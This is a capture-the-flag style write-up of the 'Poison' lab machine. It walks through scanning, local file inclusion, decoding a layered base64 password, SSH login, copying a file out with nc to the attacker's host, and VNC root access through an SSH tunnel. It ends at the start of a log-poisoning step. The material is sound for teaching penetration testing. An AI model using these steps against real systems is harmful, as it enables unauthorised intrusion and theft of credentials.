# System Information



# System Enumeration

Nmap found the following open ports. I used threader3000 to speed up the port scan a bit. Only two open ports 22 and 80.

```sh
------------------------------------------------------------  
        Threader 3000 - Multi-threaded Port Scanner            
                       Version 1.0.7                      
                   A project by The Mayor                 
------------------------------------------------------------  
Enter your target IP address or URL here: 10.10.10.84  
------------------------------------------------------------  
Scanning target 10.10.10.84  
Time started: 2021-12-18 09:59:36.731552  
------------------------------------------------------------  
Port 80 is open
Port 22 is open  
Port scan completed in 0:01:21.264190  
------------------------------------------------------------  
Threader3000 recommends the following Nmap scan:  
************************************************************  
nmap -p80,22 -sV -sC -T4 -Pn -oA 10.10.10.84 10.10.10.84  
************************************************************  
Would you like to run Nmap or quit to terminal?  
------------------------------------------------------------  
1 = Run suggested Nmap scan  
2 = Run another Threader3000 scan  
3 = Exit to terminal  
------------------------------------------------------------  
Option Selection: 1  
nmap -p80,22 -sV -sC -T4 -Pn -oA 10.10.10.84 10.10.10.84  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-18 10:01 EST  
Nmap scan report for 10.10.10.84  
Host is up (0.021s latency).  
  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)  
| ssh-hostkey:   
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)  
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)  
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)  
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32  
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).  
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 7.64 seconds  
------------------------------------------------------------  
Combined scan completed in 0:01:31.919586  
Press enter to quit...
```


### Port 80

Viewing http://10.10.10.84 showed the following page. It listed some file names and would reveal the requested file. 




Entering phpinfo.php showed phpinfo.




```sh
/usr/local/www/apache24/data/phpinfo.php
```

I also saw a possible LFI here, so I tested that and it worked. 



Browsing through each file listed, I eventually found this on listfiles.php. The last item in the array is pwdbackup.txt.




The contents of this file was a long base64 encoded string



I originally went to cyberchef and decoded the string over and over until I ended up with the plaintext password.





To better show the progression of the base64 decode I wrote a real simple python script for this. 


```py
#!/usr/bin/python3
import base64


data = "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVUbGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBSbVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVWM040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRsWmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYyeG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01GWkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYwMXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVaT1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5kWFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZkWGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZTVm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZzWkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBWVmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo="


for i in range(1, 14):
	base64_bytes = data.encode('ascii')
	message_bytes = base64.b64decode(base64_bytes)
	base64_decode = message_bytes.decode('ascii')
	print(base64_decode)
	data = base64_decode
```


The results from running this script are shown below, all the way at the bottom is the plaintext password. 

```sh
kali@kali-[~/boxes/htb/poison]$python3 decode.py   
Vm0wd2QyUXlVWGxXYTFwUFZsZFNjRlZ0TVZOWFJsbDNXa2M1VjJKR2JETlhhMUpUVmpGYWMySkVU  
bGhoTVVwVVZtcEdTMlJIVmtkWApiRnBPWVd0RmVGWnRjRXRUTVU1SVZtdFdVZ3BpVlZwWVZtMTRj  
MDB4WkZkYVJGSlVUV3N4TkZkcmFGZGhVWEJUWWxaS1VGZFhNVFJTCk1EQjRWMjVTYTFKc2NITlZi  
WGh6VGxaYVNHUklUbWhWV0VKVVdXeGFTMlF4V25Sa1IwWmFDbFpzV2xoWGExcHJXVlpLUjFOdFJs  
ZGgKYTBZMFZHdGFZVk5GTlZkYVIyaFdWMFZLVlZkWGVHRlRNVnBYVjJ0a1ZtRXpVbkJEYXpGeVlr  
UlNWMDFxVmt4V01uTjNaVmRHUjFWcwpjR2tLVW01Q2IxZHNaRFJXTWxKR1RsWmtZVkl5YUZOV01G  
WkxWbFprV0dWSGRHbE5iRXA2VjJ0YWExWnRSWHBWYms1RVlsVndXRll5CmRHOVdNREZ4Vm10NFdG  
WnNjRXhWYWtaUFl6Rldjd3BXYkdOTFdXdG9RbVZzV25SalJXUldUVlpzTkZZeU5VOVpWa2w1WVVa  
a1YwMUcKV2t4V2JGcGhaRVV4VlZGdGRFNWhNbmN3VmpKMGIxUXhiRmRVYTJoV1lrVTFSVmxzVmxw  
TmJGcDBDbVZIT1ZkaVZYQkpXVlZvZDFZdwpNWEZTYkdoaFVsZFNXRlZxUms5amQzQmhVbTFPVEZk  
WGVGWmtNbEY0VjJ0V1UySkhVbFpVVjNSM1pXeFdXR1ZHWkZWaVJYQmFWa2QwCk5GSkdjRFlLVFVS  
c1JGcDZNRGxEWnowOUNnPT0K  
  
Vm0wd2QyUXlWa1pPVldScFVtMVNXRll3Wkc5V2JGbDNXa1JTVjFac2JETlhhMUpUVmpGS2RHVkdX  
bFpOYWtFeFZtcEtTMU5IVmtWUgpiVVpYVm14c00xZFdaRFJUTWsxNFdraFdhUXBTYlZKUFdXMTRS  
MDB4V25Sa1JscHNVbXhzTlZaSGRITmhVWEJUWWxaS2QxWnRkR0ZaClZsWlhXa1prWVZKR1NtRldh  
a0Y0VGtaYVNFNVdaR2hWV0VKVVdXeGFTMVpXV2tkVmEzUnBDazFyYkRSV01qVkxWMnN3ZVdGR1Vs  
cGkKUm5Cb1dsZDRWMlJGTlZkYVIyaFNWMFZLVlZkWGVHdGlNbEp6V2taa1ZtRXpVbk5EYlVwWFYy  
dG9WMDFxVmt4WFZscExVakZPYzFWcwpWbGNLWWtoQmVsWnRjRWRWTVZsNFYyNU9ZVkl5YUZkV01G  
WkxWbFphZEUxVVFtdE5hMncwVjJ0b1QxbFdUa2hWYkU1RVlsVlpNbFp0CmVHOVdiVXBJWVVod1Yw  
MXFSbGhhUldSWFVqRk9jd3BhUm1OTFdXeFZkMlF4V2tWU2JHUlZUV3R3ZWxWWGVGZFViRXBaVkd0  
NFJGcDYKTURsRFp6MDlDZz09Cg==  
  
Vm0wd2QyVkZOVWRpUm1SWFYwZG9WbFl3WkRSV1ZsbDNXa1JTVjFKdGVGWlZNakExVmpKS1NHVkVR  
bUZXVmxsM1dWZDRTMk14WkhWaQpSbVJPWW14R00xWnRkRlpsUmxsNVZHdHNhUXBTYlZKd1ZtdGFZ  
VlZXWkZkYVJGSmFWakF4TkZaSE5WZGhVWEJUWWxaS1ZWWkdVa3RpCk1rbDRWMjVLV2sweWFGUlpi  
RnBoWld4V2RFNVdaR2hSV0VKVVdXeGtiMlJzWkZkVmEzUnNDbUpXV2toV01qVkxXVlpLUjFOc1Vs  
VlcKYkhBelZtcEdVMVl4V25OYVIyaFdWMFZLVlZadE1UQmtNa2w0V2toT1lWTkhVbE5EYlVZMlZt  
eG9WbUpIYUhwV01qRlhaRWRXUjFOcwpaRmNLWWxVd2QxWkVSbGRVTWtwelVXeFdUbEpZVGt4RFp6  
MDlDZz09Cg==  
  
Vm0wd2VFNUdiRmRXV0doVlYwZDRWVll3WkRSV1JteFZVMjA1VjJKSGVEQmFWVll3WVd4S2MxZHVi  
RmROYmxGM1ZtdFZlRll5VGtsaQpSbVJwVmtaYVVWZFdaRFJaVjAxNFZHNVdhUXBTYlZKVVZGUkti  
Mkl4V25KWk0yaFRZbFphZWxWdE5WZGhRWEJUWWxkb2RsZFdVa3RsCmJWWkhWMjVLWVZKR1NsUlVW  
bHAzVmpGU1YxWnNaR2hWV0VKVVZtMTBkMkl4WkhOYVNHUlNDbUY2VmxoVmJHaHpWMjFXZEdWR1Ns  
ZFcKYlUwd1ZERldUMkpzUWxWTlJYTkxDZz09Cg==  
  
Vm0weE5GbFdWWGhVV0d4VVYwZDRWRmxVU205V2JHeDBaVVYwYWxKc1dubFdNblF3VmtVeFYyTkli  
RmRpVkZaUVdWZDRZV014VG5WaQpSbVJUVFRKb2IxWnJZM2hTYlZaelVtNVdhQXBTYldodldWUktl  
bVZHV25KYVJGSlRUVlp3VjFSV1ZsZGhVWEJUVm10d2IxZHNaSGRSCmF6VlhVbGhzV21WdGVGSldW  
bU0wVDFWT2JsQlVNRXNLCg==  
  
Vm0xNFlWVXhUWGxUV0d4VFlUSm9WbGx0ZUV0alJsWnlWMnQwVkUxV2NIbFdiVFZQWVd4YWMxTnVi  
RmRTTTJob1ZrY3hSbVZzUm5WaApSbWhvWVRKemVGWnJaRFJTTVZwV1RWVldhUXBTVmtwb1dsZHdR  
azVXUlhsWmVteFJWVmM0T1VOblBUMEsK  
  
Vm14YVUxTXlTWGxTYTJoVllteEtjRlZyV2t0VE1WcHlWbTVPYWxac1NubFdSM2hoVkcxRmVsRnVh  
RmhoYTJzeFZrZDRSMVpWTVVWaQpSVkpoWldwQk5WRXlZemxRVVc4OUNnPT0K  
  
VmxaU1MySXlSa2hVYmxKcFVrWktTMVpyVm5OalZsSnlWR3hhVG1FelFuaFhha2sxVkd4R1ZVMUVi  
RVJhZWpBNVEyYzlQUW89Cg==  
  
VlZSS2IyRkhUblJpUkZKS1ZrVnNjVlJyVGxaTmEzQnhXakk1VGxGVU1EbERaejA5Q2c9PQo=  
  
VVRKb2FHTnRiRFJKVkVscVRrTlZNa3BxWjI5TlFUMDlDZz09Cg==  
  
UTJoaGNtbDRJVElqTkNVMkpqZ29NQT09Cg==  
  
Q2hhcml4ITIjNCU2JjgoMA==  
  
Charix!2#4%6&8(0
```

Now I have a password and I can read /etc/passwd to find possible users. Looking back through /etc/passwd I saw the following line at the end.

```sh
charix:*:1001:1001:charix:/home/charix:/bin/csh 
```


I was able to ssh in as the Charix user.

```sh
kali@kali-[~/boxes/htb/poison]$ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.
Password for charix@Poison:
Last login: Fri Dec 17 22:13:25 2021 from 10.10.14.23
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Any user that is a member of the wheel group can use "su -" to simulate
a root login. You can add a user to the wheel group by editing /etc/group.
		-- Konstantinos Konstantinidis <kkonstan@duth.gr>
charix@Poison:~ % 
```


### Charix User


In the Charix user's home directory there is a secret.zip and also user.txt. I used nc to download the file. 

```sh
charix@Poison:~ % cat user.txt 
eaacdfb2d141b7...............
```

```sh
charix@Poison:~ % ls -al
total 48
drwxr-x---  2 charix  charix   512 Dec 18 16:53 .
drwxr-xr-x  3 root    wheel    512 Mar 19  2018 ..
-rw-r-----  1 charix  charix  1041 Mar 19  2018 .cshrc
-rw-rw----  1 charix  charix     0 Dec 18 16:53 .history
-rw-r-----  1 charix  charix   254 Mar 19  2018 .login
-rw-r-----  1 charix  charix   163 Mar 19  2018 .login_conf
-rw-r-----  1 charix  charix   379 Mar 19  2018 .mail_aliases
-rw-r-----  1 charix  charix   336 Mar 19  2018 .mailrc
-rw-r-----  1 charix  charix   802 Mar 19  2018 .profile
-rw-r-----  1 charix  charix   281 Mar 19  2018 .rhosts
-rw-r-----  1 charix  charix   849 Mar 19  2018 .shrc
-rw-r-----  1 root    charix   166 Mar 19  2018 secret.zip
-rw-r-----  1 root    charix    33 Mar 19  2018 user.txt
```

On kali:

```sh
nc -lvnp 443 > secret.zip
```

On poison:

```sh
nc 10.10.14.32 443 < secret.zip
```

I attemped to use zip2john and fcrackzip but both failed for me, eventually I remembered I already had a password, I tried the password for the Charix user and it worked. 

Trying to cat the file showed some encoded data.

```sh
kali@kali-[~/boxes/htb/poison]$cat secret
��[|Ֆz!
```

```sh
kali@kali-[~/boxes/htb/poison]$file secret
secret: Non-ISO extended-ASCII text, with no line terminators
```


Not knowing what to do with this I decided to go back to enumeration. Eventually I looked into seeing what if any other ports were open locally on the machine. I attempted to use netstat and failed at getting it to show what I wanted, but in my googling I came across the sockstat command, when comined with the -4 options it will show listening ports. 


```sh
charix@Poison:/tmp % sockstat -4
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS      
charix   sshd       3628  3  tcp4   10.10.10.84:22        10.10.14.34:53066
root     sshd       3625  3  tcp4   10.10.10.84:22        10.10.14.34:53066
www      httpd      3548  4  tcp4   *:80                  *:*
www      httpd      3527  4  tcp4   *:80                  *:*
www      httpd      3513  4  tcp4   *:80                  *:*
www      httpd      3500  4  tcp4   *:80                  *:*
www      httpd      3465  4  tcp4   *:80                  *:*
www      httpd      3454  4  tcp4   *:80                  *:*
www      httpd      3450  4  tcp4   *:80                  *:*
www      httpd      3439  4  tcp4   *:80                  *:*
www      httpd      3372  4  tcp4   *:80                  *:*
www      httpd      3326  4  tcp4   *:80                  *:*
root     sendmail   642   3  tcp4   127.0.0.1:25          *:*
root     httpd      625   4  tcp4   *:80                  *:*
root     sshd       620   4  tcp4   *:22                  *:*
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     syslogd    390   7  udp4   *:514                 *:*
```

Towards the bottom there are two ineresting ports 5901 and 5801 which both look related to VNC.


I used ssh to forward port 5901 to my local port 8000.

```ssh
kali@kali-[~/boxes/htb/poison]$ssh -L 8000:127.0.0.1:5901 charix@10.10.10.84
Password for charix@Poison:
```

Verifying with nc that it worked.

```sh
kali@kali-[~/boxes/htb/poison]$nc -nv 127.0.0.1 8000
(UNKNOWN) [127.0.0.1] 8000 (?) open
RFB 003.008
```


While I was able to access VNC, I was assuming that the file was some encrypted password. I searched Xvnc freebsd on google and it gave me this definition, an "X Server".



Searching "X Server authorization" on google, the first link shows a [wikipedia](https://en.wikipedia.org/wiki/X_Window_authorization) page titled "X-Window-Authorization". On this page there is a section called "Cookie-based access" and it states there can be a .Xauthority file in the user's home directory that can be used to authenticate to the X Server. 

>If the user wants to run a program from another computer on the network, the cookie has to be copied to that other computer.

Since we already copied what I suspect may be this cookie file, I tried to authenticate to vnc using that file. 

```sh
kali@kali-[~/boxes/htb/poison]$vncviewer 127.0.0.1:8000 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```





```sh
root@Poison:~ # cat root.txt
716d04b188419c..............
```


# Where's the poison?

Knowing the name of the box and then on the machine description 'log poisoning' was listed, I was kind of confused as to why the box was setup like this since I avoided log poisoning completely. But for practice I wanted to go back and do it.

To start I wanted to find httpd.conf, where it would list the log locations. Searching for where is httpd.conf on freebsd brought me to a forum.



This was the correct location for httpd.conf. Searching for log in the file I eventually found two possible locations.



```sh
ErrorLog "/var/log/httpd-error.log"

CustomLog "/var/log/httpd-access.log"
```

Access-log should work as it logs User-Agents.



I used curl to send the following request

```sh
